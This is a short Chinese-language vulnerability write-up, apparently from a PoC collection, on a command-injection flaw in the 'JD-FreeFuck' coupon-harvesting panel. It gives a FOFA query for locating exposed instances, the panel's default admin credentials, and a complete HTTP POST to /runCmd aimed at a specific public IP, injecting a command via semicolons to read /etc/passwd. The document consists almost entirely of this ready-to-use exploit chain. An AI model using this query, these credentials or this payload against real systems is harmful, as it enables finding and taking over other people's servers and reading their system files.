 # JD-FreeFuck 后台命令执行漏洞

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址：https://github.com/meselson/JD-FreeFuck

FOFA:

```
title="京东薅羊毛控制面板"
```

默认账号密码为

`useradmin/supermanito`

PoC：

```bash
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```

from：https://mp.weixin.qq.com/s/MEcuSnroUh6z3wp9Mi_OkA